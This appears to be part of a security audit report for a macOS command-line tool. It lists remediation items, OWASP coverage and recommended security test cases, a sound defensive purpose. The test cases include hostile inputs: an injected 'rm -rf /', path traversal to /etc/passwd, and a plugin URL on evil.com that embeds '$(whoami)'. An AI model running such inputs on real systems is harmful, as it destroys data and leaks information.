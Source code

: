 ### Long-term (LOW)
1. [ ] Implement SELinux/AppArmor profiles
2. [ ] Add automated security testing
3. [ ] Create security documentation
4. [ ] Implement bug bounty program

---

## Testing Recommendations

### Security Test Cases
1. **Command Injection Tests**
   ```bash
   mac uninstall "app; rm -rf /"
   mac clean "/etc/../../../etc/passwd"
   ```

2. **Path Traversal Tests**
   ```bash
   mac duplicates "../../../../../../etc"
   mac dotfiles backup "../../../sensitive"
   ```

3. **Plugin Security Tests**
   ```bash
   mac plugin install "https://evil.com/$(whoami)"
   mac plugin install "/tmp/../../etc/passwd"
   ```

---

## Compliance Checklist

### OWASP Top 10 Coverage
- [x] A01:2021 - Broken Access Control
- [x] A02:2021 - Cryptographic Failures
- [x] A03:2021 - Injection
- [x] A04:2021 - Insecure Design
- [ ] A05:2021 - Security Misconfiguration
- [ ] A06:2021 - Vulnerable Components
- [ ] A07:2021 - Authentication Failures
- [x] A08:2021 - Software and Data Integrity
- [x] A09:2021 - Security Logging Failures
- [ ] A10:2021 - SSRF

### Security Best Practices
- [ ] Principle of Least Privilege
- [ ] Defense in Depth
- [x] Input Validation
- [ ] Output Encoding
- [x] Error Handling
- [ ] Secure Defaults

---